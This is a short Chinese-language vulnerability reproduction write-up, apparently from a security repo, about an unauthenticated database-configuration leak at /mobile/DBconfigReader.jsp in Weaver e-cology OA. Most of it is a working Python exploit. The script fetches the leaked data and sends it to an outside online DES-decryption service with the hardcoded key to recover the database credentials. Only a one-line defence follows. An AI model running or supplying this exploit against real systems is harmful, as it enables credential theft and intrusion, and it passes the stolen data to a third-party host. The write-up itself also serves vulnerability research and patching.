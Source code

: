 # [漏洞复现] 泛微ecology OA数据库配置信息泄露
### 漏洞详情
泛微e-cology OA系统`/mobile/DBconfigReader.jsp`存在未授权访问，通过解密，可直接获取数据库配置信息。

**利用前提**
`/mobile/DBconfigReader.jsp`存在未授权访问。

### 漏洞复现
利用github的exp报错，解密踩坑如下：

1. 乱码，需要用b64加密后用密钥解密

2. `\r\n`，详见参考链接

最终python脚本如下：

```python
import base64
import requests
import ast

def req(url):
	headers =  {
        'Content-Type':'application/x-www-form-urlencoded',
        'User-Agent':'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36',
        'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
    }

	r1 = requests.get(url,headers=headers).content
	s = r1.replace('\r\n','')
	res1 = base64.b64encode(s)
	
	postdata = {
		'data':res1,
		'type':'des',
		'arg':'m=ecb_pad=zero_p=1z2x3c4v_o=0_s=gb2312_t=1'
	}
	u = 'http://tool.chacuo.net/cryptdes'
	r2 = requests.post(u,data=postdata,headers=headers).content	
	res2 = ast.literal_eval(r2)
	
	return res2['data']

url = 'http://testurl/mobile/DBconfigReader.jsp'
print req(url)
```
![](img/fw1.jpg)
### 防御
禁止访问`/mobile/DBconfigReader.jsp`。

**参考**

https://mp.weixin.qq.com/s/u8GIfMBRZFAN3HANSSSgQA